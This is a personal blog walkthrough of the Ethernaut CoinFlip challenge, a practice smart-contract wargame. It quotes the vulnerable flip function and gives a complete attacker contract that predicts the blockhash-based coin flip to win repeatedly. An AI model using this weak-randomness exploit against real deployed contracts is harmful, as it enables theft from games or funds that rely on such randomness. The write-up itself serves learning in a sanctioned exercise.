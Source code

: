 # Ethernaut level 3

# Introduction

Here I am, again trying to claim ownership of this smart contract. I already feel like a malicious actor lol. Nevertheless, this particular challenge did not involve being made the owner, rather it was about winning the challenge at least 10 consecutive times. and was very interesting as the hint suggested to "look beyond ethernaut". This further led to [Remix IDE](https://remix.ethereum.org/).

> NOTE: You don't need to read through the entire article if you are looking for some solution to your problem. Head down to the challenges section and see if I encountered the same challenge as you.

# Let's Start

At first, it was very perplexing as I had just one question in mind, "How am I supposed to guess the value of `coinFlip` variable?". It took me some time to read back on the hints provided and to figure out we have to somehow use Remix to be able to cross this challenge.

Soon, I realized that the value of the above-mentioned variable is dependent on the hash of the block number divided by a huge `FACTOR` variable. This makes it less random and maybe could even be guessed accurately every time. Clearly, in the below code, we can very precisely determine the value of `guess` to be passed to the function call. I literally have to calculate the same `blockValue` using the exact same usage and then calculate `coinFlip` and then call the function `flip` with the boolean result of `coinFlip` being equal to 1.

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

I, then quickly opened up the editor and wrote a small contract consisting of an interface of the `flip` the function I need to call and the contract address of the deployed contract.  
While deploying, I passed in the correct contract address of the deployed contract and started calling the `flip` function written in my hack contract.

```solidity
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

interface CoinFlip{
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipHack {
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address){
        coinFlip= CoinFlip(_address);
    }
    
    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flipVal = blockValue / FACTOR;
        bool guess = flipVal==1?true:false; 
        coinFlip.flip(guess);
    }
}
```

The above code is the actual hack contract which determines what should the guess value be while calling the actual contract to basically attain consecutive victories.

After calling the contract 10 times, I went to the console and checked if I had 10 consecutive wins or not, turns out, I am a HACKERR!!!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1673776437242/48bf419f-38d4-4746-91b9-40e49680dc3a.png align="center")

Finally, I submitted the instance and bam, done, I passed the test hahaah.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1673776463113/31759871-5bf5-42fe-a047-c5128f37abcc.png align="center")

# Challenges

1. I couldn't understand how to be soo accurate with guessing the correct boolean value.
    
    Solution: Saw the hint and used an editor to write a contract that determines the correct value by simply making the same calculations.
    

# Support

If you liked my article, consider supporting me with a coffee ☕️ or some crypto ( ₿, ⟠, etc)

Here is my public address `0x7935468Da117590bA75d8EfD180cC5594aeC1582`

[![Buy Me A Coffee](https://cdn.buymeacoffee.com/buttons/default-yellow.png align="left")](https://www.buymeacoffee.com/atoo)

### Let's connect

[**GitHub**](https://github.com/Atoo35)

[**LinkedIn**](https://www.linkedin.com/in/atharva-deshpande-187969140/)

[**Twitter**](https://twitter.com/atharva_35)

### Feedback

Let me know if I have missed something or provided the wrong info. It helps me keep genuine content and learn.